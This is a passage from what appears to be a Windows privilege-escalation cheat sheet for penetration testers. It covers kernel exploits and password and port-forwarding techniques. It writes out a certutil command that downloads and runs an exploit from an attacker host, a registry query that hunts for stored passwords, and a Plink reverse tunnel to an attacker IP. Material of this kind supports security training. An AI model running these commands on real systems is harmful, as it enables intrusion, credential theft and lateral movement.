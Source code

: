 Methodology and Tactics:
Automated tools like winPEAS, PowerUp, and Metasploit's Local Exploit Suggester are invaluable for identifying privilege escalation opportunities quickly. These tools automate much of the manual enumeration process, allowing for efficient identification and exploitation of vulnerabilities.
7. Escalation Path: Kernel Exploits

Resources:

    Windows Kernel Exploits
    Kitrap0d Info
    MS10-059 Exploit

Commands and Methodology:

    Downloading and Executing a Kernel Exploit:
        certutil -urlcache -f http://attacker.com/MS10-059.exe ms10-059.exe: Downloads a known kernel exploit to the target system.

        bash

    certutil -urlcache -f http://192.168.1.100/MS10-059.exe ms10-059.exe

Executing the Exploit:

    ms10-059.exe: Runs the downloaded kernel exploit to gain SYSTEM privileges.

    bash

        ms10-059.exe

Methodology and Tactics:
Kernel exploits target vulnerabilities in the core of the operating system, allowing attackers to bypass most security measures and execute code with SYSTEM-level privileges. These exploits are powerful but risky, as they can cause system instability.
8. Escalation Path: Passwords and Port Forwarding

Resources:

    Achat Exploit
    Plink Download

Commands and Methodology:

    Extracting Passwords from the Registry:
        reg query HKLM /f password /t REG_SZ /s: Scans the registry for any entries related to passwords.

        bash

    reg query HKLM /f password /t REG_SZ /s

Setting Up Port Forwarding with Plink:

    plink.exe -l root -pw <password> -R 445:127.0.0.1:445 <attacker_IP>: Uses Plink to set up port forwarding, allowing the attacker to access internal services on the target machine.

    bash

        plink.exe -l root -pw password -R 445:127.0.0.1:445 192.168.1.100

Methodology and Tactics:
Port forwarding through Plink allows attackers to tunnel connections to internal services that are not directly accessible. This technique is particularly useful for lateral movement within a network.
9. Escalation Path: Windows Subsystem for Linux (WSL)
